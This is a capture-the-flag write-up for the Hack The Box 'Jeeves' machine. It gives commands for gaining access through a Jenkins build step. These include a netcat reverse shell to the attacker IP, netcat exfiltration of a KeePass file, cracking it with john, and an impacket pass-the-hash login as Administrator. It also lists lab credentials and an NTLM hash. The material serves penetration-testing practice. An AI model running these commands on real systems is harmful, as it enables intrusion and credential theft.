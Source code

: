 ```yaml
---
title: "Jeeves"
date: 2025-01-06
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "jeeves", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Jeeves

# Credentials
| Username | Password   | Source   |
| -------- | ---------- | -------- |
|          | moonshine1 | CEH.kdbx |
|          |            |          |
# Enumeration
- Microsoft SQL server 2005 
- Jetty 9.4.z-SNAPSHOT
- jenkins 2.87
# Initial Access
- Jenkins create and modifying project 
- modify command on command injection
# Privilege Escalation
- Cracking the `.kdbx` file gives password
- Opening the database gives NTLM hash 
- Pass the hash to gain shell as admin.

# Nmap
## TCP
```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## UDP
![[Pasted image 20240722145026.png]]

# Foothold
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-project

![[Pasted image 20240724122027.png]]
-> didn't work 

![[Pasted image 20240724121937.png]]

![[Pasted image 20240724132338.png]]
- Windows batch command

```sh
# download nc and connect to kali
powershell wget "10.10.14.42/nc.exe" -e Outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.42 9001
```

![[Pasted image 20240724132746.png]]

![[Pasted image 20240724133024.png]]

![[Pasted image 20240724141128.png]]

```powershell
# target
nc.exe 10.10.14.42 5555 < CEH.kdbx
# kali
rlwrap nc -lvnp 5555 > CEH.kdbx
```

![[Pasted image 20240724143230.png]]

![[Pasted image 20240724143700.png]]

```text
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

# 80-HTTP
![[Pasted image 20240722143917.png]]

![[Pasted image 20240722143948.png]]

https://www.exploit-db.com/exploits/50438
![[Pasted image 20240722144729.png]]

```sh
curl 'http://10.10.10.63:80/%2e/WEB-INF/web.xml'
```

```sh
gobuster vhost -u http://10.10.10.63 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

![[Pasted image 20240722154240.png]]

![[Pasted image 20240722154317.png]]

# 50000-HTTP
![[Pasted image 20240724103717.png]]
## CEH.kdbx
```sh
#Install keepass tools like keepass2john
sudo apt-get install -y kpcli 
#The keepass is only using password
keepass2john CEH.kdbx > hash
# The keepass is also using a file as a needed credential
keepass2john -k <file-password> file.kdbx > hash
#The keepass can use a password and/or a file as credentials, if it is using both you need to provide them to keepass2john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![[Pasted image 20240724104535.png]]

```text
moonshine1
```

![[Pasted image 20240724104922.png]]

Create unrestricted global credential
![[Pasted image 20240724105451.png]]
`admin : password`

# Privilege Escalation
## Pass the Hash (PtH)
```sh
# pass the hash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```

![[Pasted image 20240724144832.png]]

![[Pasted image 20240724145002.png]]

![[Pasted image 20240724145610.png]]

The `dir /r` command in Windows displays the contents of a directory, including the alternate data streams (ADS) for files if they exist. Alternate data streams are a feature of the NTFS file system that allows data to be associated with a file without affecting the file's primary data stream.

```sh
# show contents of directory including ADS 
dir /r
more < hm.txt:root.txt
```
